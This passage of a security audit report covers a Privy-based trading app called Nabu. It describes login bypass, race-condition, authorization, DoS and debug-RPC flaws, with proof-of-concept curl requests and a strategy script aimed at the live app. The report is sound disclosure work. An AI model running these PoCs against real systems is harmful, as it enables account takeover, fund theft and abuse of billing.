`path[]` is not constrained on any of the nine variants ([fe/backend/internal/httpapi/trading_wallet.go#L1772-L1847](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L1772-L1847)). The output token (`path[-1]`) is unconstrained for every swap. The three ETH-in variants (`swapExactETHForTokens`, `swapETHForExactTokens`, `swapExactETHForTokensSupportingFeeOnTransferTokens`) take native ETH directly, so no prior `approve()` is required and the allowlist on the approve rule does not apply to them at all.

The value cap on the ETH-in variants is `defaultPolicyMaxEthValueWeiHex = "0x56bc75e2d63100000"` ([fe/backend/internal/httpapi/trading_wallet.go#L122](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L122)), which is 100 * 10^18 wei, or 100 ETH per transaction. When the user does not supply a `tokenAllowlist`, it falls back to `defaultTokenAllowlistForChain` ([fe/backend/internal/httpapi/trading_wallet.go#L854](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L854)), which is the entire embedded tokenlist for the chain, dozens of entries.

Privy's documented policy operators are `eq`, `neq`, `lt`, `lte`, `gt`, `gte`, `in`, `in_condition_set`. There is no per-element operator on array calldata fields and no `path[N]` indexing in the `function_name.param_name` field syntax. The constraint "path[-1] in tokenAllowlist" cannot be expressed in a single policy condition, so the fix has to live outside the policy.

### Impact

Prerequisite: the victim deploys a malicious strategy via `/v1/strategies/deploy` ([fe/backend/internal/httpapi/strategies.go#L599](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/strategies.go#L599)). The strategy itself constructs the swap that the policy then signs.

The policy evaluates `to == router`, `value <= 100 ETH`, and `{function}.to == walletAddress`, all of which pass. Up to 100 ETH per transaction is converted into an attacker-chosen output token through the ETH-in variants, or any allowlisted input token is routed via a multi-hop `[ALLOWED, WETH, ANY]` path into an arbitrary output through the token-in variants.

The `tokenAllowlist` does not bound the swap path it claims to, but exploitation requires the victim to deploy an attacker-authored strategy rather than a remotely triggerable flaw, so we set the severity to **Medium**.

### Recommendations

The policy engine cannot express per-element array checks, so the fix is to reduce the potential loss rather than add a missing condition:

1. Narrow the default `tokenAllowlist`. Remove the `defaultTokenAllowlistForChain` fallback at [fe/backend/internal/httpapi/trading_wallet.go#L854](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L854) and require the user to explicitly opt tokens in. The current default allows every entry in the embedded chain tokenlist, which makes the token-in multi-hop from an allowlisted input to an arbitrary output reachable for nearly any user input token.

2. Reduce `defaultPolicyMaxEthValueWeiHex` ([fe/backend/internal/httpapi/trading_wallet.go#L122](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L122)) from 100 ETH to 1-5 ETH with an explicit user override, which bounds the per-transaction loss on the ETH-in variants.

3. Drop the ETH-in swap rules from the default policy. Remove `swapExactETHForTokens`, `swapETHForExactTokens`, and `swapExactETHForTokensSupportingFeeOnTransferTokens` from `buildUniswapSwapRules` ([fe/backend/internal/httpapi/trading_wallet.go#L1772-L1847](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L1772-L1847)) unless the user explicitly opts in, which removes the ETH-in surface. Users who need ETH-in swaps can wrap ETH first and use the token-in variants, which require an `approve()` constrained by `tokenAllowlist`.


## Privy-based accounts can be signed into using legacy SIWE authentication, bypassing Privy user blocks and Google auth

By exporting their Privy wallet private key, an attacker is able to sign into their Nabu account through the legacy SIWE flow, since the user identity is linked to both the Privy user ID and the wallet address. This allows the attacker to bypass all Privy-side user/session management (e.g. deactivation). Additionally, this allows an attacker who is able to conduct a phishing attack on a Nabu admin to sign into their account through the SIWE flow, bypassing Google authentication which is needed in the Privy authentication flow.

### Description

The backend has two sign-in flows. The production flow uses Privy and requires a Google login. The legacy SIWE flow signs a user in from a wallet signature alone: `/v1/auth/challenge` returns a message for a given address and `/v1/auth/verify` checks the signature over it and issues a Nabu session. The production frontend does not use SIWE, but the routes are registered and any HTTP client can call them ([fe/backend/internal/httpapi/handler.go#L107](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/handler.go#L107)).

A Nabu account is a single identity record that can hold both a Privy user ID and an EVM address. A Privy sign-in creates the record under the Privy user ID, and linking the trading wallet adds that wallet's address to the same record ([fe/backend/internal/httpapi/trading_wallet.go#L195](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L195)). `/v1/auth/verify` looks the account up by the signed address ([fe/backend/internal/store/user_identities.go#L80](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/user_identities.go#L80)) and returns the existing record whenever the address is already present, including a record created through Privy.

So a SIWE signature over that address authenticates as the Privy account that holds it. `requireAuth` reads the Privy user ID back from the record on every request ([fe/backend/internal/httpapi/auth_required.go#L46](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/auth_required.go#L46)), so the SIWE session is treated as that Privy session and reaches everything the Privy account can, including the trading wallet and, for an admin, the admin endpoints. Nothing in the SIWE flow consults Privy.

The trading wallet is the user's Privy embedded wallet. Privy lets the user export its private key (https://docs.privy.io/wallets/wallets/export) or sign messages with it directly, and either produces the signature `/v1/auth/verify` accepts. For our test we exported the key. A real attack can instead use Privy's message-signing flow without exporting it. The exact method is out of scope for this report.

### Impact

Because the SIWE flow never contacts Privy, the account stays reachable through it independently of anything Privy enforces. A user that Nabu deactivates or blocks on the Privy side keeps full access to their account as long as they hold the exported wallet key. Anyone else who obtains the key, for example by phishing an admin into exporting it, can sign in the same way without the Google login the Privy flow requires and take over the account with all of its rights.

The SIWE path gives full control of the account, but reaching it requires holding the wallet key, so in practice it lets a user already blocked through Privy keep using the app. We set the severity to **Medium**.

### Proof of Concept

Our Privy account for neploxaudit@gmail.com has user ID `usr_2b8148b5d0c98844a3565d542ea0fc7d` and a linked trading wallet with the address `0xAe58d86eBC2DDDbD83cDFE059c9b4115E7d6404D`. We exported that wallet's private key through Privy's export flow and ran [poc-auth-via-siwe.py](poc-auth-via-siwe.py): it requests a challenge for the address, signs the message with the exported key, and exchanges the signature at `/v1/auth/verify` for a Nabu session. No Privy token is used.

The issued session is scoped to the same account, and its token reaches the Privy-linked functionality:

```
GET /v1/trading-wallet?chain_id=1 -> 200
{"privy_wallet_id":"lnvdi7g75fv0ny8tgmh9dpr5","privy_address":"0xAe58d86eBC2DDDbD83cDFE059c9b4115E7d6404D", ... ,"delegation_status":"delegated", ... }

GET /v1/invite/status -> 200
{"is_activated":true,"role":"admin"}

GET /v1/chats -> 200
[{"id":"chat_8c14afad2f980ad95a12de41","user_id":"usr_2b8148b5d0c98844a3565d542ea0fc7d","title":"show markdown image example", ... }, ... ]
```

A SIWE account that is not linked to a Privy user has no Privy context, so `/v1/trading-wallet` returns 401 and `/v1/invite/status` returns role `user`. Returning the linked wallet, the admin role, and the account's own chats shows the SIWE session is the Privy account.

### Recommendations

Remove the legacy SIWE authentication flow. The production frontend does not use it, so removal has no effect on users, and it otherwise grants full account access from a wallet signature alone, outside Privy's user management. If there are plans to re-work the SIWE auth flow or integrate other authentication flows, ensure that they cannot be used to sign into accounts created with other flows.


## Guest accounts enabled for the Privy app can be used to exhaust Privy user limits

Nabu Privy App with ID cml6l36rh00aak40cuf5q7y1p allows guest accounts (`"guest_auth": true`) without properly integrating them into the application (no Privy integration checks that the user is a guest based on `"isGuest": true` on the user struct). A malicious actor can spam create guest accounts and exhaust Nabu's Privy MAU limits.

### Description

The Nabu Privy app (ID `cml6l36rh00aak40cuf5q7y1p`) has guest authentication enabled:

```bash
$ curl -H 'privy-app-id: cml6l36rh00aak40cuf5q7y1p' https://auth.privy.io/api/v1/apps/cml6l36rh00aak40cuf5q7y1p
{ "name": "Nabu", ..., "guest_auth": true, ... }
```

Guest accounts let a client obtain a Privy session with no login step. Privy marks them with `is_guest` so applications can handle them differently, but Nabu does not handle them at all. See Privy's documentation on guest accounts: https://docs.privy.io/recipes/react/guest-accounts. The Privy access token that `/v1/auth/privy` exchanges for a Nabu session does not carry an indicator of the guest account status, it is exposed only on the Privy user object and identity token, which the application doesn't inspect on this authentication flow. A guest account access token is therefore indistinguishable from any other user's, and `/v1/auth/privy` creates a new Nabu account for it and issues a token. Guest authentication is enabled but unused.

The production frontend never creates guest accounts, but that does not constrain an attacker, who can run a locally modified frontend or call the API directly. Guest creation is a single unauthenticated request to Privy carrying only the publicly known app ID. This is a snippet from our own attempt to create and use a guest account on https://app.nabu.pro:

```
POST /api/v1/guest/authenticate HTTP/1.1
Host: auth.privy.io
privy-app-id: cml6l36rh00aak40cuf5q7y1p

{"guest_credential":"GjGRO9OIEion9q9bi0Ii7p23xfTg6KQOCa0y2XcQVkw"}

HTTP/1.1 200 OK
{ "user": { "id": "did:privy:cmp5or33z004q0djvtzpvwh00", "is_guest": true }, "token": "<privy access token>", ... }
```

Nabu's `/v1/auth/privy` then accepts the returned token, creates a fresh user, and issues a session:

```
POST /api/backend/v1/auth/privy HTTP/1.1
Host: app.nabu.pro
authorization: Bearer <guest privy access token>

HTTP/1.1 200 OK
{ "token": "<session JWT>", "user": { "privy_user_id": "did:privy:cmp5or33z004q0djvtzpvwh00", ... } }
```

### Impact

Privy bills by monthly active user (MAU), defined as a user whose session was refreshed in the previous 30 days. A guest account is a full Privy user with a session, so every guest created counts as an MAU like a real signup. Privy has no way of knowing whether that account legitimately passed the Nabu invite flow. Since guest creation is unauthenticated and scriptable, an attacker can inflate Nabu's MAU at will, pushing it out of the enabled tier boundary.

As the issue is easily exploitable and the described impact is achievable, but does not affect sensitive data or funds, we set the severity to **Medium**.

### Recommendations

Considering Nabu does not properly support guest accounts, the best path to take here is to disable them for the Nabu Privy app entirely.


## Invite code use limit can be bypassed using a TOCTOU in the redemption mechanism

Invitation codes in Nabu specify a concrete limit on the number of allowed uses. The redemption mechanism reads the current use count and writes the redemption in two separate statements, a race condition that allows a code to be redeemed more times than its configured limit.

### Description

`/v1/invite/redeem` ([fe/backend/internal/httpapi/invite.go#L109-L252](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L109-L252)) reads the current usage count and then inserts the redemption in two separate statements with no wrapping transaction:

```go
useCount, _ := s.st.InviteCodeUseCount(r.Context(), ic.ID)   // invite.go:208
if useCount >= ic.MaxUses { ... return code_exhausted ... }  // invite.go:215
...
s.st.RedeemInviteCode(r.Context(), redemptionID, ic.ID, userID, ...) // invite.go:232
```

`InviteCodeUseCount` ([fe/backend/internal/store/invite.go#L165-L174](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/invite.go#L165-L174)) is a plain `SELECT COUNT(*) FROM invite_redemptions WHERE invite_code_id = ?`. `RedeemInviteCode` ([fe/backend/internal/store/invite.go#L176-L196](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/invite.go#L176-L196)) is an unconditional `INSERT` that does not re-check the count as part of the write. `invite_redemptions` ([fe/backend/internal/store/schema.sql#L179-L186](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/schema.sql#L179-L186)) has no `UNIQUE(invite_code_id, user_id)` or `UNIQUE(invite_code_id)` constraint.

`db.SetMaxOpenConns(1)` ([fe/backend/internal/store/store.go#L49](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/store.go#L49)) serializes individual statements, but the connection is released between the SELECT and the INSERT, so two concurrent requests can interleave. Each reads the same count before either has inserted, both pass the `useCount >= ic.MaxUses` check, and both insert. The per-user rate limit at [fe/backend/internal/httpapi/invite.go#L117](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L117) is keyed on user ID and does not bound the attack.

### Impact

Prerequisites: two backend JWTs and one shared code with `max_uses_per_code = 1`.

A single-use code is redeemed by more than one account, and both users get `is_activated`. The only downstream effect today is the role returned by `resolveUserRole` ([fe/backend/internal/httpapi/invite.go#L245](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L245)), since no feature route currently checks the flag (see [04-HIGH-invitation-bypass](#invite-activation-is-not-enforced-by-the-api-granting-any-user-full-platform-access)).

A single-use invariant the operator configured is violated with only two authenticated sessions and parallel requests, so we set the severity to **Medium**.

### Proof of Concept

```bash
JWT_A="..."
JWT_B="..."
BASE="https://app.nabu.pro"
CODE="..."   # max_uses_per_code = 1, not yet redeemed

for JWT in "$JWT_A" "$JWT_B"; do
  curl -sX POST "$BASE/api/backend/v1/invite/redeem" \
    -H "Authorization: Bearer $JWT" \
    -H "Content-Type: application/json" \
    -d "{\"code\":\"$CODE\"}" &
done
wait
```

If both responses return `{"success":true,"message_key":"welcome_to_nabu"}` against a `max_uses = 1` code, the race succeeded. Verify via `/v1/admin/invite-codes/{id}/redemptions`, which shows two distinct `user_id` rows for the same code. If a single attempt does not succeed, repeat across several fresh codes.

### Recommendations

Close the race with a single atomic update instead of a separate count check and insert. Denormalize `current_uses` onto `invite_codes` and run `UPDATE invite_codes SET current_uses = current_uses + 1 WHERE id = ? AND current_uses < max_uses`, rejecting the redemption when `RowsAffected == 0`. As defense in depth, wrap the check and insert in a `BEGIN IMMEDIATE` transaction.


## Any strategy can place orders on any user's CEX account via a known `handle_id`

The CEX order pipeline never checks that the strategy placing an order owns the handle it targets, so an attacker's strategy can place orders on any user's exchange account by supplying that user's `handle_id`, draining their funds. Exploiting it requires the victim's `handle_id`, which is a random value an attacker has no confirmed way to obtain.

### Description

`OrderWriter.WriteOrders` ([application/cex/order_writer.go#L55-L178](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/cex/order_writer.go#L55-L178)) looks up the handle by the strategy-supplied `handle_id` and copies `handle.WalletAddr` straight into `req.WalletAddr`:

```go
handle, _ := w.service.GetHandleWithTx(tx, order.HandleID)
req := &EnqueueOrderRequest{HandleID: order.HandleID, WalletAddr: handle.WalletAddr, ...}
```

The service check at [application/cex/service.go#L1085](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/cex/service.go#L1085), `req.WalletAddr == handle.WalletAddr`, compares two values from that same lookup, so it is always true. The CEX path never consults `loadStrategyOwner`, which the DEX path does at [wasmstrategy/strategy_batch_processor.go#L1522](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/wasmstrategy/strategy_batch_processor.go#L1522). The executor then fetches credentials by that `handle_id` ([application/cex/service.go#L1070](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/cex/service.go#L1070)), which are the handle owner's exchange API key.

The balance precheck does not catch this either. `precheckCEXOrderBalance` ([wasmstrategy/host.go#L10891-L10978](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/wasmstrategy/host.go#L10891-L10978)) keys its snapshot on `(owner, handle, asset)`, so a cross-owner order has none, and the check fails open at [wasmstrategy/host.go#L10960](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/wasmstrategy/host.go#L10960) by returning `true` when no snapshot is found. It also checks the wrong thing: balance availability rather than ownership.

### Impact

The only prerequisite is knowing a victim's `handle_id`. It is 16 bytes from `crypto/rand` ([application/cex/service.go#L1470-L1478](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/cex/service.go#L1470-L1478)), so it is not guessable, and exploitation requires a separate leak.

Given a leaked `handle_id`, an attacker deploys their own strategy that calls `cex.order.place(handle_id="<victim>", ...)`. The writer enqueues the order with `WalletAddr` set to the victim's wallet, and the executor places it with the victim's exchange API key. A limit sell well below market drains the victim's position.

The authorization flaw is real, and a single order can drain the victim's exchange position, so the impact is high. It is not critical, because each victim requires a separate `handle_id` leak rather than one flaw exposing every user at once. Exploiting it depends on obtaining that `handle_id`, and there is no confirmed channel for one user to learn another's, so the exploitability is low. Together these put the severity at **Low**.

### Proof of Concept

```psl
(strategy (version 1)
  (config (h "<victim_handle_id>") (sym "ETHUSDT") (qty "0.5"))
  (on (event tick)
    (do (cex.order.place handle_id=config.h symbol=config.sym
         side="sell" type="limit" price="100" qty=config.qty))))
```

Deploy under the attacker's own JWT and Privy wallet. On tick, the appchain executor logs `wallet_addr=<victim>` with `strategy_id=<attacker>`, so the cross-owner enqueue is only visible after the fact.

### Recommendations

Resolve the strategy's owner and require it to equal `handle.WalletAddr`, replacing the tautological `req.WalletAddr == handle.WalletAddr` check at [application/cex/service.go#L1085](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/cex/service.go#L1085). Read the owner from the strategy registry (`application.StrategyRegistryBucket`, the same source the DEX path uses) or parse it from the `CallerAuth` strategy ID, and enforce the match both in `OrderWriter.WriteOrders` and `WriteCancels` ([application/cex/order_writer.go#L55-L178](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/cex/order_writer.go#L55-L178), [application/cex/order_writer.go#L251-L300](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/cex/order_writer.go#L251-L300)) and in `buildExecRequest`. As a secondary layer, change the balance precheck at [wasmstrategy/host.go#L10960](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/wasmstrategy/host.go#L10960) to reject when no snapshot exists instead of failing open.


## Lack of Privy wallet ID validation during linking leads to user strategy management DoS

`/v1/trading-wallet/link` stores an arbitrary Privy wallet ID from the request to the `privy_wallets` table, and the application does not enforce uniqueness of wallet ID values across users, which allows an attacker to link another user's Privy wallet ID to their own account under a different wallet address. The attacker can then call `/v1/trading-wallet/delegation` to register their wallet ID & address link on the appchain, which ends up overriding the existing link for the user's wallet ID. This blocks the user from managing their own strategies through `/v1/strategies/deploy`, `/v1/strategies/control`: the operations fail on the appchain level which checks the wallet mapping in each operation and emits `apperrors.ErrPrivyWalletMappingMismatch`. This failure is not properly surfaced to the user, no option to re-delegate is presented, and calling `/v1/trading-wallet/delegation` from the UI won't fix the problem as on the wallet backend level the delegation has already been completed for the user, so new requests are just rejected.

### Description

The wallet Nabu uses for trading on behalf of a user is linked through `/v1/trading-wallet/link`. The handler authenticates the caller's Privy session, and stores `privy_wallet_id`, `privy_address`, and `policy_id` into the `privy_wallets` table exactly as they appear in the request body. The only element it reverifies against Privy is the user ID binding on the access token, none of the wallet fields are verified to be true. Nothing prevents re-linking the same wallet across multiple Nabu accounts, only the caller's own wallets are checked:

```go
existing, getErr := s.st.GetPrivyWallet(r.Context(), reqPrivyUserID, chainID)
if getErr == nil && existing.PrivyWalletID != "" {
    writeError(w, http.StatusConflict, "conflict", "wallet already linked")
```

The schema places no uniqueness constraint on `privy_wallet_id` or `privy_address` across users ([fe/backend/internal/store/schema.sql#L130](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/schema.sql#L130)). A caller can therefore link an arbitrary Privy wallet to their own account, including one that belongs to another user. The same missing validation exploited through the `privy_address` field, rather than the wallet ID, enables cross-user data disclosure and is covered separately in [03-HIGH-wallet-link-data-disclosure](#lack-of-wallet-address-validation-during-linking-leads-to-sensitive-user-data-disclosure).

Strategy operations are ultimately authorized on the appchain, which maintains its own mapping from each Privy wallet to its owner. This mapping is written through the appchain's `registerPrivyWallet` RPC ([application/api/api.go#L68](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/api.go#L68)), which the Nabu backend calls with an attestor-signed transaction carrying the wallet data previously written through the link request. This is triggered by the frontend through a call to `/v1/trading-wallet/delegation` with `status=delegated`, which is the normal step taken to let Nabu trade on behalf of the user. The backend is therefore the sole authority on who owns a wallet, yet it never verifies ownership.

This registration transaction is destructive: the mapping on the appchain is keyed only on `privy_wallet_id`, and `processRegisterPrivyWallet` overwrites any existing mapping for that id without confirming the new owner matches the old one ([application/transaction.go#L383](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/transaction.go#L383)). An attacker can link the victim's wallet under their own account and then delegate for Nabu to rewrite the ownership of the victim's wallet to the attacker on the appchain.

With ownership reassigned, the victim can no longer deploy, pause, resume, or archive any strategy. Each of these operations requires the caller to be the wallet's recorded owner, which `requirePrivyWalletMapping` enforces by comparing the transaction's Privy fields against the stored mapping ([application/api/strategy_control.go#L610](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_control.go#L610)):

```go
return strings.EqualFold(m.PrivyUserID, tx.PrivyUserID) &&
    strings.EqualFold(m.PrivyWalletID, tx.PrivyWalletID) &&
    m.PrivyWalletAddress == tx.PrivyWalletAddress &&
    m.PrivyChainID == tx.PrivyChainID
```

The stored mapping now holds the attacker's `privy_user_id`, so the comparison fails for the victim. The strategy deploy API can repair a wallet whose mapping is absent by registering it and retrying, but the victim's mapping is not absent, it just points to the wrong owner, which the retry does not handle ([fe/backend/internal/httpapi/strategies.go#L1058](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/strategies.go#L1058)).

The victim has no way to see the cause or undo it. The deploy and control failures appear as a generic "appchain rpc failed", which isn't helpful. The only flow that re-registers the mapping is the delegation step, which the frontend runs only for a wallet that is not already delegated ([StrategyArtifactCard.tsx#L285](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/modules/chat/components/StrategyArtifactCard.tsx#L285)), so it never runs again for the victim and the application offers no automatic recovery.

### Impact

Knowledge of a victim's embedded Privy wallet ID lets an attacker lock that victim out of deploying or controlling any of their strategies, with no recovery available through the application. Severity is **Low** only because the wallet ID is a high-entropy value of over 120 bits that the application never even exposes through the UI, leaving an attacker no practical way to obtain it.

### Recommendations

The root cause of this issue is the lack of validation in the API that links the Privy wallet data to the Nabu account, `/v1/trading-wallet/link`. This endpoint should not blindly trust input data regarding the user wallet details, and it shouldn't even have to accept them at all: these details can be fetched by the backend directly through Privy's API endpoints. Additionally, however, Nabu should enforce per-chain wallet ID uniqueness, for example, in the `privy_wallets` table. As an additional hardening, the appchain `registerPrivyWallet` RPC handler should treat wallet ID/address mappings as immutable: the policy ID can be changed through the RPC, but the actual mapping itself should stay fixed after the first registration.


## Debug appchain RPC methods are force-enabled in production

The appchain node force-enables its debug-only RPC methods at startup regardless of the `debug_e2e_rpc_methods` configuration, and they are reachable through the Nabu backend RPC proxy. The methods are authorized only by a caller-supplied, unsigned `sender`, and expose a strategy's internal trigger surface and runtime state that no normal production API returns.

### Description

At startup the appchain node overwrites `cfg.DebugE2ERPCMethods` with `true` regardless of configuration, reading the operator's `debug_e2e_rpc_methods` setting ([internal/appnode/appnode.go#L205](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/internal/appnode/appnode.go#L205)) only into a variable for logging ([internal/appnode/appnode.go#L673-L680](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/internal/appnode/appnode.go#L673-L680)):

```go
requestedDebugE2ERPCMethods := cfg.DebugE2ERPCMethods
cfg.DebugE2ERPCMethods = true

appRPC.EnableDebugE2ERPCMethods()
log.Info().
    Bool("requested_debug_e2e_rpc_methods", requestedDebugE2ERPCMethods).
    Bool("forced_enabled", true).
    Msg("Debug E2E-only RPC methods enabled")
```

The setting therefore has no effect, and only `configs/appchain.e2e.yaml` ([configs/appchain.e2e.yaml#L11](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/configs/appchain.e2e.yaml#L11)) ever enables the methods intentionally.

`EnableDebugE2ERPCMethods` causes `AddRPCMethods` to register the debug methods inside its `debugE2ERPCs` block ([application/api/api.go#L76-L81](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/api.go#L76-L81)), commented "DEBUG/E2E ONLY: forbidden for product/runtime callers". Two of them carry the same prohibition in their own source: `getStrategyRecordDebug` ("FORBIDDEN: do not use this surface in product/runtime code paths", [application/api/strategy_record_debug.go#L18](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_record_debug.go#L18)) and `getStrategyStateSlots` ("DEBUG/E2E ONLY: forbidden for product/runtime callers", [application/api/strategy_state_slots.go#L63](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_state_slots.go#L63)). Both authorize only on `ownerMatches(record, req.Sender)`, where `req.Sender` is supplied in the request and not backed by any signature. They are served on the appchain JSON-RPC port ([internal/appnode/appnode.go#L685](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/internal/appnode/appnode.go#L685)), reachable through the backend at `/v1/appchain/rpc` for any authenticated session and directly on `appchain:8080/rpc` within the `pelagos` docker bridge.

`getStrategyRecordDebug` ([application/api/strategy_record_debug.go#L44-L83](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_record_debug.go#L44-L83)) returns the strategy's on-chain trigger surface (chain, contract, event topics) and its CEX market footprint (exchange, symbol). `getStrategyStateSlots` ([application/api/strategy_state_slots.go#L60-L94](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_state_slots.go#L60-L94)) returns the strategy's internal runtime state as raw CBOR slot/value rows, decodable once the slot schema is known. Neither discloses the strategy program itself, but together they expose enough to reconstruct much of its logic from observation.

### Impact

Prerequisites: one backend JWT from any normal login, plus the target strategy's `strategy_id` and owner address.

Because `sender` is caller-supplied and unsigned, the only thing protecting a strategy is knowledge of its id and owner address. A caller can always read their own strategy. Reading another user's strategy would additionally require leaking that strategy's id, which this finding does not establish a path for, so the disclosure considered here is limited to the caller's own data. The data exposed is internal strategy detail that no normal production API returns, reached through methods their own source marks as forbidden and behind a setting the operator cannot actually disable.

Because an authenticated user can only reach the internal detail of their own strategies this way, and cross-owner reads depend on a strategy-id leak that is out of scope here, we set the severity to **Low**.

### Proof of Concept

```bash
JWT="..."
BASE="https://app.nabu.pro"
OUR_ADDRESS="0x..."
STRATEGY_ID="..."

curl -sX POST "$BASE/api/backend/v1/appchain/rpc" \
  -H "Authorization: Bearer $JWT" -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","id":1,"method":"getStrategyRecordDebug",
       "params":[{"strategy_id":"'$STRATEGY_ID'","sender":"'$OUR_ADDRESS'"}]}' | jq

curl -sX POST "$BASE/api/backend/v1/appchain/rpc" \
  -H "Authorization: Bearer $JWT" -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","id":1,"method":"getStrategyStateSlots",
       "params":[{"strategy_id":"'$STRATEGY_ID'","sender":"'$OUR_ADDRESS'"}]}' | jq
```

Expected output (abbreviated):

```
{"strategy_id":"...","owner":"0x...","status":"active",
 "subscriptions":[{"chain_id":1,"evm_contract":"0x...","topics":["0x..."]}],
 "capabilities":{"cex_pairs":[{"exchange":"mexc","symbol":"ETHUSDT"}]}}

{"slots":[{"key":"0x...","value":"0x..."}, ...]}
```

### Recommendations

1. Remove the forced override at [internal/appnode/appnode.go#L673-L680](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/internal/appnode/appnode.go#L673-L680) so registration follows the `debug_e2e_rpc_methods` setting, which is disabled by default. For stronger protection, put the methods behind a build tag (`//go:build debugrpc`) or a non-public interface so production binaries cannot register them at all.

2. If the methods must remain registered, verify a signature from the strategy owner instead of trusting the caller-supplied `sender`, in the same shape as `cex_getBalances` ([application/api/cex_types.go#L138-L146](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/cex_types.go#L138-L146)).


## Privy access tokens are stored in the domain's localStorage, exposing them to potential client-side attacks

Nabu uses the default `localStorage` data store location for its Privy integration, meaning Privy stores the sensitive access token on the domain's local storage in the browser. This leaves the access token exposed to potential XSS or supply chain attacks on the frontend. Privy supports storing the user's access token as an `HttpOnly` cookie which makes it accessible only to the backend, this storage method should be used for the production app instead.

### Description

Privy issues each signed-in user an access token, which the app exchanges via the `/v1/auth/privy` endpoint for a Nabu session.

